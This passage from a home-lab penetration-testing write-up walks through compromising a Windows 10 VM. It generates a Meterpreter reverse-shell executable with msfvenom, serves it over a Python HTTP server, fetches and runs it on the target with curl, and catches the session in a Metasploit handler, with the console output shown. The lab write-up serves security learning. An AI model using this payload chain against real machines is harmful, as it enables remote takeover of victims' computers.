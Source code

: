 ## Step 5: Exploit (Simulate Access to Windows 10 Machine via Reverse Shell Payload)
Although Step 4 focused on SMB-based attack vectors, the Windows 10 machine was found to be patched against remote SMB exploits. To simulate a more realistic attack scenario, I'm simulating gaining access through phising or malware. 

### Generate a reverse shell payload on Kali:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali-IP> LPORT=4444 -f exe -o payload.exe
```

### Host the paylaod using a Python HTTP Server
```bash
python3 -m http.server 80
```

### Download the payload (On Windows VM)
```bash
curl http://192.168.56.103/payload.exe -o payload.exe
```

### Start a Metasploit handler on Kali
```bash
msfconsole

use/exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <192.168.56.103>
set LPORT 4444
run
```

### In Windows Command Prompt (Run in the correct directory):
```bash
payload.exe
```

### Kali Meterpreter Session Running:
```bash
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.56.103
LHOST => 192.168.56.103
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run


[*] Started reverse TCP handler on 192.168.56.103:4444 
[*] Sending stage (203846 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.103:4444 -> 192.168.56.101:49688) at 2025-07-02 18:19:58 -0400
```
